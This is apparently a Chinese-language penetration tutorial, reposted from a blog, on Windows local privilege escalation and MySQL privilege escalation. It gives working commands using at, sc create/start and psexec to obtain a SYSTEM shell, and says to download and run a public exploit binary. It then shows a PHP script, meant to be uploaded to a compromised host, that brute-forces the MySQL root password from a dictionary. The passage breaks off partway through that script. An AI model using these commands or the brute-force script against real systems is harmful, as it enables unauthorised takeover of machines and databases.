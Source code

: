 获取本地普通用户的权限后，要将权限提升为更高权限，本地提权的成功概率比 web 提权更高。  
**案例演示**  
**1. 系统溢出漏洞提权**  
直接网上下载 BitsArbitraryFileMoveExploit.exe, 运行就可以提升为系统权限![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6xBsTPv77hVBVDWs0ZhbOx0LgkQr5dPPeuCfto8o04yulAI5Cu4SKp0WIXIXqhjFTJbGmboB84nA/640?wx_fmt=png)  
**2.AT 命令提权:**  
at 13:36 /interactive cmd.exe (在 13：36 分生成一个交互式的 System 权限的 cmd)  
使用版本：Win2000 & Win2003 & XP  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6xBsTPv77hVBVDWs0ZhbOxqVbA3FhTm6SY2IyVFy9BE4wnvoTKX3kbpZ4XicjJf2T2EL5nLAoiaiccQ/640?wx_fmt=png)  

**3.SC 命令提权：**

sc Create syscmd binPath= “cmd /K start” type= own type= interact #创建一个名叫 syscmd 的新的交互式的 cmd 服务

sc start syscmd #得到了 system 权限的 cmd 环境

适用版本：windows 7、8、03、08

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6xBsTPv77hVBVDWs0ZhbOxtz0eFCOzGCNLMyzGpfMdYPA69ofmJUKSVIUTYDXlqyR7Iuic3icBg3sQ/640?wx_fmt=png)  
**4.PS 命令提权**  
微软工具包：https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools  
psexec.exe -accepteula -s -i -d cmd.exe  
适用版本：Win2003 & Win2008  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6xBsTPv77hVBVDWs0ZhbOxEa7UB2hZUrhh3vpbyicOjtxsYbUc4xX2y8x2Uec8ibEa6iaib0xubeYXGw/640?wx_fmt=png)

**数据库提权**
---------

**Mysql 数据库提权**  
利用 UDF 提权  
在利用 UDF 提权时前提是我们需要知道数据库的密码，而在正常情况下 MySQL 数据库不支持外连，此时如果我们用工具爆破不了，可以上传脚本进行爆破，脚本如下：

```
<html>
<head>
  <title>Mysql账号密码爆破工具</title>
  <metahttp-equiv="Content-Type"content="text/html; charset=utf-8">
</head>
<body>
  <center>
   <br><br>
   <h1>MysqlDatab aseBlasting(Mysql账号密码在线爆破工具 V1.0)</h1>
  <br>
<?php
if(@$_POST['submit']){
   $host =@$_POST['host'];
   if($host!=""){
    $username ="root";//用户名字典
    $password = array('','123456','admin','root123','ccf304vn');//密码字典
    echo "<hr><br>--------------------爆破状态--------------------<br>";
    echo "密码错误次数：";
    for($i=0; $i <= count($password); $i++){
     if(@mysql_connect($host, $username, $password[$i])){
       echo "<br><br><font color='red'>爆破成功--密码-->".@$password[$i]."</font>";
       break;
     }else{
       echo $i."、";
       continue;
     }
    }
    echo "<br>--------------------爆破结束--------------------<br><hr>";
   }else{
    echo "<s cript>a lert('黑客，输入数据库IP地址')</s cript>";
   }
}
```